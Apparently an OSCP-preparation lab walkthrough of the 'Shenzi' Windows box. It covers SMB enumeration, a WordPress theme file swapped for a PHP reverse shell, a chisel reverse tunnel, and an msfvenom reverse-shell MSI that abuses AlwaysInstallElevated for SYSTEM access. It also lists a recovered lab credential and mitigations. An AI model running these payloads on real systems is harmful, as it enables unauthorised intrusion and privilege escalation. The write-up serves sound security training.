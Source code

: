 ```yaml
---
title: Shenzi
date: 2025-06-23
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Windows, phpinfo, WordPress, privesc-AlwaysInstallElevated] 
image: shenzi.webp
media_subpath: /assets/img/posts/2025-06-23-shenzi/
---
```


## Introduction

In this walkthrough, I encountered a WordPress site and gained access using credentials discovered in SMB shares. Once authenticated, I edited the `index.php` file of the active theme to include a PHP reverse shell and triggered it by visiting the page in the browser. This gave me a foothold on the machine as a low-privileged user. During post-exploitation enumeration, I discovered that the `AlwaysInstallElevated` registry keys were enabled, which allowed me to execute a malicious `.msi` installer file with elevated privileges. This ultimately resulted in a shell as `NT AUTHORITY\SYSTEM`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Services

### Port 21

Anonymous login is not allowed.

![image.png](image%202.png)

### Port 135

```bash
rpcclient -U'%' $IP
```

**NT_STATUS_ACCESS_DENIED**

### Port 139/445

```bash
smbclient -L //$IP/ -N
```

![image.png](image%203.png)

```bash
smbclient //$IP/Shenzi -N
- RECURSE ON
- PROMPT OFF
- mget *
```

![image.png](image%204.png)

### Port 3306

```bash
mysql -u shenzi --ssl=0 -p -h $IP
```

![image.png](image%205.png)

We are not allowed to connect.

## Web

### Port 80

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%206.png)

## Exploitation

Reading files obtaine from Share I found WordPress credentials:

![image.png](image%207.png)

We should `Wordpress` endpoint, I have tried gobuster and feroxbuster but couldn’t locate it. As the name of the box is `Shenzi` and it is often seen in `phpinfo` page we can make a guess that directory name is `shenzi`:

![image.png](image%208.png)

![image.png](image%209.png)

And yes we find a `WordPress` site. Let’s login to wordpress using credentials we obtained from share.

![image.png](image%2010.png)

I am gonna edit the `inactive theme` and obtain `RCE`.

![image.png](image%2011.png)

Go to `Theme Editor` and edit the `php` code and execute it accessing from browser.

I replaced `index.php` with reverse shell, now I am gonna access it from browser.

![image.png](image%2012.png)

![image.png](image%2013.png)

## Privilege Escalation

Checking privileges:

![image.png](image%2014.png)

I have decided to perform port forwarding of `MySQL` to find anything useful using [chisel](https://github.com/jpillora/chisel):

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 51234
.\chisel.exe client 10.10.14.23:51234 R:3306:127.0.0.1:3306
```

I checked every database but nothing useful found there:

![image.png](image%2015.png)

I prefer running [`PowerUp.ps1`](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerUp.ps1) before [`winPEASany.exe`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):

![image.png](image%2016.png)

It found a registry vulnerability, that means all `.msi` files will be executed with high privileges. Let’s make it sure that with the following commands:

```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

![image.png](image%2017.png)

First let’s generate a payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.226 lport=4444 -f msi -o reverse.msi
```

copy the generated file to the Windows machine and execute it:

```bash
msiexec /quiet /qn /i reverse.msi
```

![image.png](image%2018.png)

## Credentials

```bash
admin:FeltHeadwallWight357
```

## Mitigation

- Disable the `AlwaysInstallElevated` policy by setting both `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` and `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` to `0`.
- Restrict write access to WordPress theme files by securing the file permissions and using version control or deployment pipelines.
- Avoid storing credentials in unsecured SMB shares and enforce least privilege access control.
- Regularly audit registry configurations and apply Group Policy to disable insecure settings.
